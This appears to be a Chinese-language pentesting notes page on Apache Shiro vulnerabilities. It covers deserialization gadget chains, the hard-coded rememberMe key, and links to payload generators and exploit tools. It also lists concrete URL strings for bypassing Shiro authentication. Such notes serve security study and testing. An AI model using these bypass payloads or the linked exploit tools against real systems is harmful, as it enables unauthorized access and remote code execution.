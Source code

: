 ## Shiro反序列化
- [Java版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/ShiroDeser.java)
- [Python版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/shiro_deser.py)

### 反序列化利用链
从Shiro-core官方的pom.xml文件中可以看出，在项目通过pom.xml引入shiro-core时，会自动引入commons-beanutils。当shiro-core的版本改变时，CB的版本也会随之改变。通过测试发现，shiro从1.2.4到1.3.2依赖的都是CB-1.8.3。而在shiro-1.3.2的下一个版本1.4.0中依赖的CB是1.9.3，从这个shiro版本开始，引入shiro依赖的项目会依赖CC3.2.2。
参考：
- https://github.com/apache/commons-beanutils/blob/BEANUTILS_1_9_1/pom.xml#L278
- https://github.com/apache/shiro/blob/shiro-root-1.4.0/pom.xml#L832
- https://github.com/apache/shiro/blob/shiro-root-1.3.2/pom.xml
- https://github.com/apache/shiro/blob/shiro-root-1.2.4/pom.xml#L617

### 说明
- 1.2.4的key硬编码在`org\apache\shiro\mgt\AbstractRememberMeManager.java`这个文件里；
- 1.2.4以上（1.2.5开始）的key在AbstractRememberMeManager构造方法里是这样写的：
```java
this.setCipherKey(cipherService.generateNewKey().getEncoded());
```
可以直接调这个接口，这样得到的key就是随机的。当然开发者也可以通过配置文件配置，比如`shiro.ini`, `xxx-shiro-xml`等制定一个自己实现的RememberMeManager（继承自`CookieRememberMeManager`），然后`applications.properties`里面配置这个硬编码的seed。如果攻击者知道了这个seed，可以方便地拿到shiro的key。
- 1.4.2以后，从`CBC`模式变成了`GCM`模式，需要相应地修改一下代码。

## Shiro权限绕过
比如想要访问的敏感url为：
```
/admin/index
```
假设`/static` 路径不需要认证即可访问。

绕过姿势：
- /admin/index%2f
- /;/admin/index
- /static;/admin/index
- /static;/../admin/index
- /static/..;/admin/index
- /admin/index%25%32%46index
- /admin/%3bindex


## 参考
- https://www.cnblogs.com/loong-hon/p/10619616.html
- https://www.codenong.com/cs106643678/
- [Shiro权限验证绕过史](https://s31k31.github.io/2020/08/20/Shiro_Authentication_Bypass/)
- [Shiro反序列化漏洞笔记二（检测篇）](http://xiashang.xyz/2020/09/05/Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%AC%94%E8%AE%B0%E4%BA%8C%EF%BC%88%E6%A3%80%E6%B5%8B%E7%AF%87%EF%BC%89/)
- [深入利用Shiro反序列化漏洞](https://xz.aliyun.com/t/8445)
- https://github.com/apache/shiro/blob/8751ce1c31848efa96242099ba908bd110540246/RELEASE-NOTES#L163
- https://github.com/apache/shiro/blob/323698ed6e22e417a5e86e367906cddb29932bbe/crypto/cipher/src/main/java/org/apache/shiro/crypto/cipher/AesCipherService.java
- https://jkme.github.io/cve-2016-6802-exp.html

## Shiro反序列化利用工具
- https://github.com/Ares-X/shiro-exploit
- https://github.com/feihong-cs/ShiroExploit-Deprecated
- https://github.com/wyzxxz/shiro_rce
- https://github.com/pmiaowu/BurpShiroPassiveScan
- https://github.com/potats0/shiroPoc
- https://github.com/fupinglee/ShiroScan
